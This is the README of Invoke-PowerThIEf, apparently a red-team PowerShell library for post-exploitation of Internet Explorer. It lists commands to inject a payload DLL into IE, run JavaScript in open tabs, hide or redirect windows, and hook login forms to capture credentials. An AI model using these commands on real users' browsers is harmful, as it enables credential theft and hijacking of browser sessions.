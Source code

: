 # Invoke-PowerThIEf 2018 Nettitude
An IE Post Exploitation Library

Written by Rob Maslen @rbmaslen

#Examples


# Usage
First import the module using . .\Invoke-PowerThIEf.ps1 then use any of the following commands.

##List URLs for all current IE browser sessions, result will contain the BrowserIndex used by other actions
Invoke-PowerThIEf -action ListUrls

##Launch the DLL(x64) specified by the PathPayload param in IE's process
Invoke-PowerThIEf -action ExecPayload -PathPayload <path to the payload DLL(x64)>

##Invoke the JavaScript in all currently opened IE windows and tabs
Invoke-PowerThIEf -action InvokeJS -Script <JavaScript to run>

##Invoke JavaScript in the selected IE window or tab. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action InvokeJS -BrowserIndex <BrowserIndex> -Script <JavaScript to run>

##Dump the HTML of all currently opened IE windows/tabs
Invoke-PowerThIEf -action DumpHthml

##Dump the HTML from the selected IE window or tab. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex>

##Dump the HTML from all tags of <type> in the DOM of the selected IE window or tab. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType tag -Selector <type>
e.g. Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType tag -Selector div

##Dump the HTML from any tag with the <id> found in the DOM of the selected IE window or tab. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType id -Selector <id>
e.g. Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType id -Selector idfirstdiv

##Dump the HTML from any tag with the <name> found in the DOM of the selected IE window or tab. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType name -Selector <name>
e.g. Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType name -Selector namefirstdiv

##Set to visible all IE windows/tabs
Invoke-PowerThIEf -action ShowWindow

##Show the selected opened IE windows/tabs. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action ShowWindow -BrowserIndex <BrowserIndex>

##Hide all currently opened IE windows/tabs
Invoke-PowerThIEf -action HideWindow

##Hide the selected opened IE windows/tabs. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action HideWindow -BrowserIndex <BrowserIndex>

##Navigate all currently opened IE windows/tabs to the <URL>
Invoke-PowerThIEf -action Navigate -NavigateUrl <URL> 

##Navigate all currently opened IE windows/tabs to the <URL>. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action Navigate -BrowserIndex <BrowserIndex> -NavigateUrl <URL> 

##Navigate all currently opened IE windows/tabs to the <URL>. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action Navigate -BrowserIndex <BrowserIndex> -NavigateUrl <URL> 

##Automatically scan any windows or tabs for login forms and record what gets posted. Once credentials have come in use -action creds to list them
Invoke-PowerThIEf -action HookLoginForms 

##List any creds that have been captured
Invoke-PowerThIEf -action Creds 

## Open a new background tab in the window that the <BrowserIndex> is in.
Invoke-PowerThIEf -action NewBackgroundTab -BrowserIndex <BrowserIndex>

# License
FreeBSD 3